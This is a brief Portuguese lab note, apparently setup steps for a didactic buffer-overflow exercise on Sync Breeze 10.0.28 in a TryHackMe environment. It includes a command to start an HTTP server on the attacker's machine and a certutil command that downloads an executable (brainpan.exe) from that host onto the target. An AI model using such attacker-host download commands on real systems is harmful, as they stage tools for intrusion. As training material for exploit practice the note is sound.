 # Buffer Overflow Sync Breeze 10.0.28 - Didactic

**Sync Breeze 10.0.28**
http://www.syncbreeze.com/setups/syncbreezeent_setup_v10.0.28.exe

- Subir servidor na máquina do atacante
```python3 -m http.server (port)```

- Baixar o arquivo na máquina do THM
```certutil -urlcache -split -f http://ipdavpn:porta/brainpan.exe```
